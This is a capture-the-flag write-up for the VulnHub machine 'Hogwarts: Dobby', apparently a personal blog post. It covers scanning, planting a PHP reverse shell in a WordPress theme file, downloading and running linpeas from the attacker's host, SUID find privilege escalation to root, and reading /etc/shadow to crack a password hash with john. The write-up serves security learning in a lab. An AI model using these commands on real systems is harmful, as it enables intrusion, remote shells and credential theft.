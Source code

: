 ```yaml
---
title: Hogwarts-Dobby - Writeup
author: Elman Alizadeh
date: 2022-05-22 15:30:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, hogwarts, dobby]
---
```


Today we will take a look at Vulnhub: Dobby. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open — open 192.168.0.105

```console
Nmap scan report for 192.168.0.105
Host is up (0.095s latency).
Not shown: 58603 closed tcp ports (reset), 6931 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
|_http-server-header: Apache/2.4.46 (Ubuntu)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
```

## Web

If we look at the source code of the page, we encounter something like this.

```console
Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==
```

Let’s decode with Base64

```console
too easy no? Potte/alohomorar
```

Trap

But below is a hint.

```console
/alohomoraDraco's 

password is his house ;)
```

I searched the internet for the name of the draco’s house.

```console
slytherin
```

## Gobuster

```console
/log                  (Status: 200) [Size: 45]
```

pass:OjppbGlrZXNvY2tz

hint → /DiagonAlley

When we look at the articles here, we see that the author’s name is Draco.

## Reverse shell

Let’s go to the admin panel.

Url: /wp-admin

Go to /wp-admin/theme-editor.php and select 404.php from twenty twenty.

Paste the php reverse shell.

[ReverseShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After listening, go to this link

Url: http://192.168.0.105/DiagonAlley/wp-content/themes/twentytwenty/404.php

After logging in

```console
Command: script /dev/null -c bash

Command: export TERM=xterm

ctrl+z

Command: stty raw -echo ; fg

Command: reset
```
## Root 

### Linpeas

[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```console
Your machine

Command: python3 -m http.server 80

Target machine

Command: wget http://192.168.0.107/linpeas.sh

Command: chmod +x linpeas.sh

Command: ./linpeas.sh
```
![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/2.png" | relative_url }})

We found two gaps.

### Vertical Privilege Escalation

Command: /usr/bin/find . -exec /bin/sh -p \; -quit

```console
www-data@HogWarts:/tmp$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
```

### Horizontal Privilege Escalation
```console
Command: LFILE=/etc/shadow

Command: base32 “$LFILE” | base32 — decode
```
We copy the dobby line and paste it into the hash file on our machine

Command: john hash — wordlist=/usr/share/wordlists/rockyou.txt

```console
Created directory: /home/al1z4deh/.john
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilikesocks       (dobby)     
1g 0:00:09:45 DONE (2022-05-22 14:38) 0.001706g/s 1107p/s 1107c/s 1107C/s iloveJESUS..iheartjake
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Command: su dobby

Command: /usr/bin/find . -exec /bin/sh -p \; -quit

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/3.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-hogwarts-dobby/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
